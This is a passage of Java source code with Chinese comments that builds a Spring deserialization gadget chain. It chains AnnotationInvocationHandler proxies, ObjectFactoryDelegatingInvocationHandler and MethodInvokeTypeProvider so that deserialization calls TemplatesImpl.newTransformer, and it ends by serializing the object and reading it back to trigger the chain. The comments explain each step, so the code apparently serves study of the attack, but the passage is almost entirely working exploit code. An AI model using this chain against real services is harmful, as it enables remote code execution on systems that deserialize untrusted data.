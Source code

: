 ```
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // 使用 AnnotationInvocationHandler 动态代理 ObjectFactory 的 getObject 方法，使其返回 TemplatesImpl
        ObjectFactory factory = (ObjectFactory<?>) Proxy.newProxyInstance(
                ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);

        // ObjectFactoryDelegatingInvocationHandler 的 invoke 方法触发 ObjectFactory 的 getObject
        // 并且会调用 method.invoke(返回值,args)
        // 此时返回值被我们使用动态代理改为了 TemplatesImpl
        // 接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class clazz = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor ofdConstructor = clazz.getDeclaredConstructors()[0];
        ofdConstructor.setAccessible(true);
        // 使用动态代理出的 ObjectFactory 类实例化 ObjectFactoryDelegatingInvocationHandler
        InvocationHandler ofdHandler = (InvocationHandler) ofdConstructor.newInstance(factory);

        // ObjectFactoryDelegatingInvocationHandler 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 ObjectFactoryDelegatingInvocationHandler 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);


        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap map2 = new HashMap();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor cons   = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(fileName));
        objectOutputStream.writeObject(objects);

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(fileName));
        objectInputStream.readObject();
    }
    public static void setFieldValue(Object obj,String fileName,Object value) throws Exception{
```